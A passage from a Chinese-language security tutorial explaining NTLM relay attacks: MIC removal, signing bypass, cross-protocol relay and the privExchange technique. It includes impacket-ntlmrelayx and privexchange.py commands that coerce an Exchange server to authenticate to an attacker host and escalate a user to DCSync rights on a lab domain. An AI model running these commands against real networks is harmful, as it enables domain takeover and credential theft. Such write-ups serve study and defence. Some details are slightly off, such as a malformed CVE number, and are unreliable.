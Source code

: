 因此，在使用NTLMv1的情况下，执行NTLM Relay攻击的攻击者只需要删除AUTHENTICATE消息的MIC(并调整Drop the MIC中所示的标志)就可以篡改数据，例如，禁用应用程序消息的签名。

![image-20220310162047107](/img/image-20220310162047107.png)

NTLM中继攻击的缺陷在于即使攻击者通过了身份验证，它也不知道在传输过程中加密的会话密钥。因此，如果在客户端和服务器之间协商签名，攻击者将无法为应用程序消息生成有效的签名，从而无法与服务器对话，因此攻击失败。然而，即使客户端和服务器想要协商签名，攻击者也可以篡改消息以取消该标志的设置。为了避免这种情况，AUTHENTICATE消息包含一个MIC的签名。服务器会检查MIC，如果和原始消息的签名不同会停止连接。

![image-20220310170159568](/img/image-20220310170159568.png)

在CVE-2015-005之前，在使用NTLM域账户的情况下，攻击者可以使用Netlogon调用(NetrLogonSamLogonWithFlags)要求DC验证AUTHENTICATE消息和返回的会话密钥，所以攻击者可以利用这个绕过签名限制。

一般来说有四种类型的NTLM中继，分别是：

从SMB到LDAP的跨协议NTLM中继，从LDAP到SMB的NTLM的跨协议中继，SMB协议自身的NTLM中继，利用HTTP进行的LDAP或SMB的跨协议中继。

我们可以利用responder来设置监听服务器

```shell
impacket-ntlmrelayx -t target_ip -smb2support --no-http-server
```

这里出现了一个签名问题，在SMB1和SMB2中，默认情况下客户端启用了签名(但不是必需的)，因此设置了NTLM标志NTLMSSP_NEGOTIATE_SIGN。默认情况下，DC和Exchange等服务器都需要签名。

![image-20220321105308920](/img/image-20220321105308920.png)

#### privExchange

我们可以利用HTTP来进行中继攻击，利用privExchange漏洞来进行攻击，通过 HTTP 使用 NTLM 向攻击者进行身份验证的方法。

漏洞利用条件：

- 默认情况下，Exchange 服务器具有高权限
- NTLM 身份验证容易受到中继攻击
- Exchange 具有一项功能使用 Exchange 服务器的计算机帐户向攻击者进行身份验证

Exchange的计算机用户是一个高权限账户，可以修改AD中的ACL属性，因此，我们将NTLM中继到LDAP上时，我们就可以修改AD中的对象，并赋予一定的权限（包括Dcsync的权限）。我们通过让Exchange服务器利用HTTP向任意URL进行身份验证的行为，可以达到该漏洞的目的。

![image-20220321140203863](/img/image-20220321140203863.png)





利用过程

```shell
//指定目标DC，以及我们要修改的用户
impacket-ntlmrelayx -t ldap://dc01.lab.local --escalate-user buff

//利用Privechange进行请求
python privexchange.py -ah 192.168.0.142 mail01.lab.local -d lab.local -u chry -p Welcome1
```

邮件服务器发送一个HTTP请求到我们的中继服务器，利用中继服务器去进行身份验证并获取到NTLMv2的hash，我们通过 LDAP 将其中继到域控制器，修改用户的 ACL 权限以获取 DCsync 权限。
